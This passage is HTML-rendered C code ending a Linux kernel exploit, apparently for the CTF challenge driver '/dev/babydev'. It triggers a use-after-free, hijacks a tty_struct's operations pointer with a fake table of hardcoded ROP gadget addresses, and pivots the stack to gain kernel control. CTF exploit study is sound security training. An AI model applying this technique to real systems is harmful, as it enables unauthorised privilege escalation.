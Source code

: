 </span>;&nbsp;i&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">&lt;</span>&nbsp;<span style="color:#0099cc">30</span>;&nbsp;i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;{</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fake_tty_operations[i]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0xFFFFFFFF8181BFC5</span>;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;fake_tty_operations[<span style="color:#0099cc">0</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0xffffffff810635f5</span>;&nbsp;&nbsp;<span style="color:#999999">//pop&nbsp;rax;&nbsp;pop&nbsp;rbp;&nbsp;ret;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;fake_tty_operations[<span style="color:#0099cc">1</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;(size_t)rop;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;fake_tty_operations[<span style="color:#0099cc">3</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0xFFFFFFFF8181BFC5</span>;&nbsp;&nbsp;<span style="color:#999999">//&nbsp;mov&nbsp;rsp,rax&nbsp;;&nbsp;dec&nbsp;ebx&nbsp;;&nbsp;ret</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#066de2">int</span>&nbsp;fd1&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;open(<span style="color:#63a35c">"/dev/babydev"</span>,&nbsp;O_RDWR);&nbsp;&nbsp;&nbsp;&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#066de2">int</span>&nbsp;fd2&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;open(<span style="color:#63a35c">"/dev/babydev"</span>,&nbsp;O_RDWR);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;ioctl(fd1,&nbsp;<span style="color:#0099cc">0x10001</span>,&nbsp;<span style="color:#0099cc">0x2e0</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;close(fd1);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#066de2">int</span>&nbsp;fd_tty&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;open(<span style="color:#63a35c">"/dev/ptmx"</span>,&nbsp;O_RDWR<span style="color:#ff3399"></span><span style="color:#a71d5d">|</span>O_NOCTTY);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;size_t&nbsp;fake_tty_struct[<span style="color:#0099cc">4</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;{<span style="color:#0099cc">0</span>};</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;read(fd2,&nbsp;fake_tty_struct,&nbsp;<span style="color:#0099cc">32</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;fake_tty_struct[<span style="color:#0099cc">3</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;(size_t)fake_tty_operations;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;write(fd2,fake_tty_struct,&nbsp;<span style="color:#0099cc">32</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#066de2">char</span>&nbsp;buf[<span style="color:#0099cc">0x8</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;{<span style="color:#0099cc">0</span>};</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;write(fd_tty,&nbsp;buf,&nbsp;<span style="color:#0099cc">8</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#a71d5d">return</span>&nbsp;<span style="color:#0099cc">0</span>;</div><div style="padding:0 6px; white-space:pre; line-height:130%">}</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>
